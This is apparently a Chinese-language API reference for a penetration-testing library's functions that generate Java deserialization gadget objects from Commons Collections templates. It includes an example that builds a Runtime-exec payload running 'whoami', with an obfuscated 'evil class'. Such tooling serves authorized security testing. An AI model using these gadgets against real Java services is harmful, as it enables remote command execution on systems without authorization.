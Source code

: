 
### GetCommonsCollectionsK2JavaObject

#### 详细描述
GetCommonsCollectionsK2JavaObject 基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollectionsK2JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollectionsK2JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK3JavaObject

#### 详细描述
GetCommonsCollectionsK3JavaObject 基于Commons Collections K3 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。
